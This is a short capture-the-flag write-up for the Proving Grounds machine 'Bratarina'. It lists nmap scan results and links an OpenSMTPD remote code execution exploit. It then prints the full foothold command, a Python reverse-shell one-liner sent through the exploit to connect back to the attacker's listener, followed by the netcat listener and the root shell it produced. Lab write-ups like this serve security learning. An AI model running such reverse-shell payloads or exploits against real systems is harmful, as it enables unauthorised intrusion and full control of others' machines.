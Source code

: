 ```yaml
---
title: "Proving grounds Play: Bratarina"
layout: post
date: 2023-10-05 02:00
categories: writeup
---
```


Proving grounds Practice - Bratarnia CTF writeup.

## Nmap

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.212], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 25/tcp  open  smtp - OpenSMTPD

The service OpenSMTPD is vulnerable to [OpenSMTPD 6.6.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47984) vulnerability.

## Foothold

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Bratarina/exploits$ python3 exploit.py 192.168.192.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.212\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

naveenj@hackerspace:|22:37|~/proving_grounds/Bratarina/exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.212] from (UNKNOWN) [192.168.192.71] 34894
root@bratarina:~# 
```

**Foothold Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).